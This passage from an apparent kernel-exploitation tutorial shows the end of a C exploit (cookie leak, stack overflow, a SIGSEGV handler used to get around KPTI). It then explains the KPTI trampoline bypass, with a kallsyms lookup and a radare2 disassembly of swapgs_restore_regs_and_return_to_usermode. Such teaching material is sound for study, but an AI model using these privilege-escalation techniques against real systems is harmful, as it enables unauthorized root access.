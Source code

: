     write(global_fd, payload, sizeof(payload));
    puts("if you can read this, it did not work.");
}

int main(int argc, char **argv){
    signal(SIGSEGV, payload);  // register the signal handle to bypass KPTI.
    open_dev();
    save_state();
    leak_cookie();
    overflow_stack();
    return 0;
}
{% endhighlight %}

## KPTI Bypass 2: KPTI Trampolines

This is the idea that you can find in most writeups on bypassing
KPTI. The main idea is that if a syscall returns normally, then there
is a piece of code that achieves this.
This code is called a KPTI trampoline and changes the memory page
tables from kernel space to user space.
It will swap the page tables and then execute `swapgs` and `iretq`,
just like we did manually.
In Linux this function is called
`swapgs_restore_regs_and_return_to_usermode`, and we can find its
position by looking for it in the kallsyms. Note that we need
administrative privileges for that.

```Bash
# cat /proc/kallsyms | grep swapgs_restore_regs_and_return_to_usermode
ffffffff81200f10 T swapgs_restore_regs_and_return_to_usermode
```

Disassembling this function with radare2 can be done as shown below.

```
$ r2 -A vmlinux
...
[0xffffffff81e00000]> s 0xffffffff81200f10
[0xffffffff81200f10]> pdb
│           ; CODE XREF from fcn.ffffffff812010d0 @ 0xffffffff8120137e(x)
│           ; DATA XREF from fcn.ffffffff8159fce0 @ 0xffffffff8159fced(x)
│           ; DATA XREF from fcn.ffffffff815a0180 @ 0xffffffff815a01ee(x)
│           0xffffffff81200f10      415f           pop r15
│           0xffffffff81200f12      415e           pop r14
│           0xffffffff81200f14      415d           pop r13
│           0xffffffff81200f16      415c           pop r12
│           0xffffffff81200f18      5d             pop rbp
│           0xffffffff81200f19      5b             pop rbx
│           0xffffffff81200f1a      415b           pop r11
│           0xffffffff81200f1c      415a           pop r10
│           0xffffffff81200f1e      4159           pop r9
│           0xffffffff81200f20      4158           pop r8
│           0xffffffff81200f22      58             pop rax
│           0xffffffff81200f23      59             pop rcx
│           0xffffffff81200f24      5a             pop rdx
│           0xffffffff81200f25      5e             pop rsi
│           0xffffffff81200f26      4889e7         mov rdi, rsp
│           0xffffffff81200f29      65488b2425..   mov rsp, qword gs:[0x6004]
│           0xffffffff81200f32      ff7730         push qword [rdi + 0x30]
│           0xffffffff81200f35      ff7728         push qword [rdi + 0x28]
│           0xffffffff81200f38      ff7720         push qword [rdi + 0x20]
│           0xffffffff81200f3b      ff7718         push qword [rdi + 0x18]
│           0xffffffff81200f3e      ff7710         push qword [rdi + 0x10]
│           0xffffffff81200f41      ff37           push qword [rdi]
│           0xffffffff81200f43      50             push rax
```